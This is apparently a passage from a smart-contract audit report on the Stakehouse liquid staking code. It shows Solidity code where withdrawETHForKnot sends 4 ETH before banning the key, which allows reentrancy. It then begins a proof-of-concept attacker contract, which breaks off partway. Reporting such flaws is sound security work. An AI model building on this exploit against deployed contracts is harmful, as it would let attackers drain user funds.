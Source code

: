 ```solidity
        IOwnableSmartWallet(associatedSmartWallet).rawExecute(
            _recipient,
            "",
            4 ether
        );

        // update the mapping
        bannedBLSPublicKeys[_blsPublicKeyOfKnot] = associatedSmartWallet;

        emit ETHWithdrawnFromSmartWallet(associatedSmartWallet, _blsPublicKeyOfKnot, msg.sender);
    }
```

note the section:

```solidity
// refund 4 ether from smart wallet to node runner's EOA
IOwnableSmartWallet(associatedSmartWallet).rawExecute(
	_recipient,
	"",
	4 ether
);

// update the mapping
bannedBLSPublicKeys[_blsPublicKeyOfKnot] = associatedSmartWallet;
```

if the _recipient is a smart contract, it can re-enter the withdraw function to withdraw another 4 ETH multiple times before the public key is banned.

As shown in our running POC.

We need to add the import first: 

```solidity
import { MockAccountManager } from "../../contracts/testing/stakehouse/MockAccountManager.sol";
```

We can add the smart contract below:

https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12

```solidity
interface IManager {
    function registerBLSPublicKeys(
        bytes[] calldata _blsPublicKeys,
        bytes[] calldata _blsSignatures,
        address _eoaRepresentative
    ) external payable;
    function withdrawETHForKnot(
        address _recipient, 
        bytes calldata _blsPublicKeyOfKnot
    ) external;
}

contract NonEOARepresentative {

    address manager;
    bool state;

    constructor(address _manager) payable {

        bytes[] memory publicKeys = new bytes[](2);
        publicKeys[0] = "publicKeys1";
        publicKeys[1] = "publicKeys2";

        bytes[] memory signature = new bytes[](2);
```